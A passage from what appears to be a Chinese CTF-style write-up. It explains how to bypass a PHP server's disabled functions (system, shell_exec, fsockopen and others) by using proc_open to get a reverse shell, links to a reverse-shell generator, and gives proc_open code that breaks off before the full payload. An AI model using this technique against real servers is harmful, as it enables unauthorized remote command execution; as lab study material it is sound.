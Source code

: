 ![在这里插入图片描述](https://img-blog.csdnimg.cn/ddb379c1e0524a07b40ea8761f81af4b.png)


![在这里插入图片描述](https://img-blog.csdnimg.cn/22a6545da1fb4be89cefe738214150e7.png)

但是服务器禁用了一些函数，我们不能使用system()、passthru()、shell_exec()、popen()、fsockopen() 等，简单的 PHP 反向 shell用不了，但是proc_open()没有被禁用，我们可以利用这个函数来获取用户shell
```
https://www.php.net/manual/en/function.proc-open.php
```


![在这里插入图片描述](https://img-blog.csdnimg.cn/844ad4cec91d41b8a18976f07136dae4.png)
```
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

$process = proc_open('sh', $descriptorspec, $pipes, $cwd, $env);

if (is_resource($process)) {
    // $pipes now looks like this:
    // 0 => writeable handle connected to child stdin
    // 1 => readable handle connected to child stdout
    // Any error output will be appended to /tmp/error-output.txt

    fwrite($pipes[0], '<?php print_r($_ENV); ?>');
    fclose($pipes[0]);

    echo stream_get_contents($pipes[1]);
    fclose($pipes[1]);

    // It is important that you close any pipes before calling
    // proc_close in order to avoid a deadlock
    $return_value = proc_close($process);

    echo "command returned $return_value\n";
}
?>
The above example will output somethi
```

然后在这个网站上生成一个shellcode
```
https://www.revshells.com/
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/ca38fbb1c844412ca7424a85bb73b48a.png)
完整的代码为
```
<?php
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("file", "/tmp/error-output.txt", "a") // stderr is a file to write to
);

$cwd = '/tmp';
$env = array('some_option' => 'aeiou');

```